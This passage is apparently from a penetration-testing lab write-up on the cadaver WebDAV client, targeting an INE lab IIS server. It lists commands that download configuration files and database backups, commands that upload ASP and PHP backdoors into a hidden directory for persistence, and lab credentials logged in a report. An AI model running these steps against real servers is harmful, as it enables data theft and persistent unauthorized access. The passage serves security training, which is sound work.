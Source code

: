### Integration with File Enumeration and Analysis
```bash
# Download configuration and sensitive files for analysis
cadaver http://target/webdav
get web.config         # IIS configuration
get .htaccess          # Apache configuration  
get config.php         # PHP application config
get database.xml       # Database configurations
get backup.sql         # Database backups
```

### Integration with Persistence and Lateral Movement
```bash
# Establish multiple access points
cadaver http://target/webdav
mkdir hidden           # Create hidden directory
cd hidden
put backdoor1.asp      # Primary backdoor
put backdoor2.php      # Secondary backdoor  
put persistence.txt    # Documentation of access points
```

---

## 📝 Documentation and Reporting

### Evidence Collection and Documentation

#### Session Logging
```bash
# Create comprehensive evidence log
echo "Cadaver WebDAV Assessment Report" > cadaver_report.txt
echo "=================================" >> cadaver_report.txt  
echo "Date: $(date)" >> cadaver_report.txt
echo "Target: http://demo.ine.local/webdav" >> cadaver_report.txt
echo "Authentication: Basic (bob:password_123321)" >> cadaver_report.txt
echo "" >> cadaver_report.txt
```

#### Technical Details Documentation

**Connection Information:**
- **WebDAV URL:** http://demo.ine.local/webdav
- **Authentication Method:** HTTP Basic Authentication
- **Credentials:** bob:password_123321
- **Connection Status:** Successful (dav:/webdav/> prompt received)
- **Server Type:** Microsoft IIS with WebDAV enabled

**Directory Structure Analysis:**
- **Initial Directory Contents:**
  - DavTestDir_AqOeSdckMtf/ (0 bytes) - Previous davtest directory
  - AttackDefense.txt (13 bytes) - Default file
  - web.config (168 bytes) - IIS configuration file
